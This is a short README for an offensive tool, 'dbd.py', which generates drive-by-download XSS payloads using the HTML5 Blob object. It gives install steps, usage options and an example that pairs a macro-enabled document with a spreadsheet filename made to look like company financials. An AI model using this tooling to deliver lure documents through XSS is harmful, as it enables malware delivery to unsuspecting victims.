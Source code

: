 # dbd.py (drive-by-download)
Generate a post exploit script to download an arbitrary file using HTML5's Blob object (https://developer.mozilla.org/en-US/docs/Web/API/Blob).

# install

```shell
$ git clone https://github.com/demetrius-ford/dbd.git
$ cd dbd/ && pip3 install -r requirements.txt
```

# usage

```bash
Usage: dbd.py [OPTIONS]

  Generate a drive-by-download XSS payload.

Options:
  --suffix [.doc|.pdf|.xls|.docx|.xlsx|.xlsm]
  --payload FILE
  --help                          Show this message and exit.
```

Create a macro-enabled document, then run:

```bash
$ python3 dbd.py --suffix=".xlsx" --payload="2020_12_12_financials.xlsx"
```
